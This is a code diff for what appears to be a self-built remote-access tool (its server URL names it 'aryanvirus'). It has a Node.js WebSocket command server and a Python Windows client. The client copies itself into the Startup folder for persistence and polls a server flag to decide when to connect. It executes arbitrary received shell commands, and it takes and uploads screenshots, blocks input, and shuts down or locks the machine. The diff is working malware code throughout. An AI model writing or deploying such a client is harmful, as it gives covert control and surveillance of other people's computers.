

last code having websocket

diff --git a/server/server.js b/server/server.js
@@ -12,17 +12,21 @@ const server = app.listen(3000,()=>{
 })
 const wss = new WebSocket.Server({noServer:true});
 
-let client = null;
-
 const clients = new Map();
+const ackedClients = new Set()
+let connectFlag = false;
 
 wss.on("connection", (ws) => {
   let deviceName = null;
 
   ws.on("message", (value) => {
     const msg = value.toString();
-
-    if (msg.startsWith("Connected")) {
+    if(msg.startsWith("ACK:")){
+      const ackDevice = msg.split(":")[1];
+      ackedClients.add(ackDevice)
+      console.log(`Ack recived. Total : ${ackedClients.size} / ${clients.size}`)
+    }
+    else if(msg.startsWith("Connected")) {
       deviceName = msg.split(":")[1].trim();
 
       // Close old connection if already exists
@@ -33,7 +37,7 @@ wss.on("connection", (ws) => {
 
       clients.set(deviceName, ws);
       console.log("Connected:", deviceName);
-    } else {
+    }else {
       console.log(`Message from ${deviceName || "unknown"}`, msg);
     }
   });
@@ -46,11 +50,18 @@ wss.on("connection", (ws) => {
   });
 });
 
-
 server.on("upgrade",(request,socket,head)=>{
     wss.handleUpgrade(request,socket,head,ws=>{
         wss.emit("connection",ws,request)
     })
+})
+
+app.get("/shouldconnect",(req,res)=>{
+  res.json({connect:connectFlag})
+})
+app.get("/setconnect/:value",(req,res)=>{
+  connectFlag =req.params.value === "true";
+  res.send(`connectFlag set to ${connectFlag}`);
 })
 
 app.post("/upload",upload.single("screenshot"),(req,res)=>{
@@ -69,22 +80,26 @@ app.get("/clients", (req, res) => {
 
 
 app.get("/send", (req, res) => {
-  const deviceName = req.query.device;
+  const i = parseInt(req.query.i); // use ?i=0
   const msg = req.query.msg;
 
-  if (!deviceName || !msg)
-    return res.send("Usage: /send?device=DeviceName&msg=yourMessage");
+  if (isNaN(i) || !msg)
+    return res.send("Usage: /send?i=0&msg=yourMessage");
 
-  const target = clients.get(deviceName);
-  if (!target) return res.send(`Device ${deviceName} not found`);
+  const clientArray = Array.from(clients.values());
+  const target = clientArray[i];
+
+  if (!target) return res.send(`No client at index ${i}`);
 
   if (target.readyState === WebSocket.OPEN) {
     target.send(msg);
-    res.send(`Message sent to ${deviceName}: ${msg}`);
+    const deviceName = Array.from(clients.keys())[i];
+    res.send(`Message sent to ${deviceName} (i=${i}): ${msg}`);
   } else {
-    res.send(`${deviceName} is disconnected`);
+    res.send(`Client at i=${i} is disconnected`);
   }
 });
+
 
 app.use("/uploads", express.static(path.join(__dirname, "uploads")));
 

diff --git a/client/client.py b/client/client.py
@@ -18,8 +18,50 @@ from notepadType import notepad_write
 from prompt import alertPrompt
 from prompt import inputPrompt
 
-#serverUrl = "https://aryanvirus.onrender.com"
-serverUrl = "http://localhost:3000"
+import shutil
+from pathlib import Path
+import sys
+
+FLAG_FILE = Path(os.getenv('APPDATA')) / "my_program_first_run.flag"
+
+def add_to_startup():
+    print("initial move")
+    try:
+        print("startedmvoe")
+        startup_dir = Path(os.getenv('APPDATA')) / r"Microsoft\Windows\Start Menu\Programs\Startup"
+        # startup_dir = Path(os.getenv('ProgramData')) / r"Microsoft\Windows\Start Menu\Programs\Startup"
+        exe_path = Path(sys.argv[0]).resolve()  # now this is the exe
+        destination = startup_dir / exe_path.name
+
+        if not destination.exists():
+            shutil.copy(exe_path, destination)
+    except Exception as e:
+        print(f"Failed to add to startup: {e}")
+
+if not FLAG_FILE.exists():
+    add_to_startup()
+    FLAG_FILE.touch()
+
+serverUrl = "http://localhost:3000"    
+uri = "ws://localhost:3000"
+
+# serverUrl = "https://aryanvirus.onrender.com"
+# uri = "wss://aryanvirus.onrender.com" 
+
+
+POLL_INTERVAL = 60
+
+"""check server variable to see if we should connect"""
+def should_connect():
+    try:
+        r = requests.get(f"{serverUrl}/shouldconnect",timeout=5)
+        j = r.json()
+        return bool(j.get("connect"))
+    except:
+        return False
+
+
+
 def take_screenshot():
     try:
         pc_name = socket.gethostname()
@@ -43,9 +85,7 @@ def handle_msg(msg):
             elif msg == "unblock":
                 blockInput.unblock_all()
             elif msg == "shutdown":
-                os.system("shutdown /s /t 0")   
-            elif msg=="cmd":
-                    print("error")    
+                os.system("shutdown /s /t 0")      
             elif msg=="desktop":
                 pg.keyDown("win")
                 pg.press("d")
@@ -56,6 +96,8 @@ def handle_msg(msg):
                 take_screenshot()
             elif msg=="lock":
                 os.system("rundll32.exe user32.dll,LockWorkStation")
+            elif msg=="end":
+                os._exit(0)
     except:
         pass
 def send_data():
@@ -65,17 +107,16 @@ def send_data():
         pc_id = f"{pc_name}_{mac}"
         url = f"{serverUrl}/posttrace"
         requests.get(url,params={"pc_id":pc_id})
-    except:
-        pass    
+    except Exception as e:
+        print(e)
+        
 
 def send_handler():
     threading.Thread(target=send_data).start()
 
 keyboard.add_hotkey("ctrl+shift+q",send_handler)
                   
-async def listen():
-    # uri = "wss://aryanvirus.onrender.com" 
-    uri = "ws://localhost:3000" 
+async def listen(): 
     pc_name = socket.gethostname()
     mac = hex(uuid.getnode())
     pc_id = f"{pc_name}_{mac}"
@@ -86,8 +127,15 @@ async def listen():
                 while True:
                     message = await websocket.recv() 
                     print("Recieved : ", message)
-                    if message.startswith("subprocess"):
-                        
+                    await websocket.send(f"ACK:{pc_id}")
+                    if message == "checkflag":
+                        try:
+                            r = requests.get(f"{serverUrl}/shouldconnect",timeout=5)
+                            if not r.json().get("connect",False):
+                                await websocket.close()
+                                return
+                        except:pass
+                    elif message.startswith("subprocess"):
                         command = message[len("subprocess "):]
                         try:
                             subprocess.run(command,shell=True)
@@ -99,7 +147,6 @@ async def listen():
                         try:
                             webbrowser.open(command)
                         except:pass    
-
                     elif message.startswith("type"):
                     
                         command = message[len("type "):]
@@ -112,7 +159,6 @@ async def listen():
                             notepad_write(command,True)
                         except:pass         
                     elif message.startswith("notepadtype"):
-                    
                         command = message[len("notepadtype "):]
                         notepad_write(command,False) 
                     elif message.startswith("press"):
@@ -125,9 +171,11 @@ async def listen():
                         alertPrompt(command) 
                     elif message.startswith("inputprompt"):
                     
-                        command = message[len("inputprompt "):]
-                        value=inputPrompt(command)  
-                        await websocket.send(value)
+                        try:
+                            command = message[len("inputprompt "):]
+                            value=inputPrompt(command)  
+                            await websocket.send(value)
+                        except:pass    
                     elif message.startswith("backspace"):
                     
                         command = message[len("backspace "):]
@@ -173,4 +221,16 @@ async def listen():
             print("connection lost . Reconnecting in 3 seconds ...")
             await asyncio.sleep(3)
 
-asyncio.run(listen())
+
+async def poll_loop():
+    while True:
+        try:
+            if should_connect():
+                print("Server says connect - Starting Websocket")
+                await listen()
+            else:
+                print("Server says No connect - sleeping 60s")
+                await asyncio.sleep(POLL_INTERVAL)
+        except:pass
+
+asyncio.run(poll_loop())

diff --git a/client/notepadType.py b/client/notepadType.py
@@ -8,11 +8,15 @@ def notepad_write(text,drawHeart):
     pg.press("win")
     time.sleep(1)
     pg.typewrite("notepad",0.3)
-    time.sleep(1.5)
+    time.sleep(2.5)
     pg.press("enter")
-    time.sleep(1.5)
+    time.sleep(2)
     pg.hotkey("alt","space","x")
-    time.sleep(.5)
+    time.sleep(.3)
+    for _ in range(15):
+        pg.hotkey("ctrl","=")
+        time.sleep(0.05)
+    time.sleep(0.2)    
     pg.typewrite(text,0.3)
 
     if drawHeart:
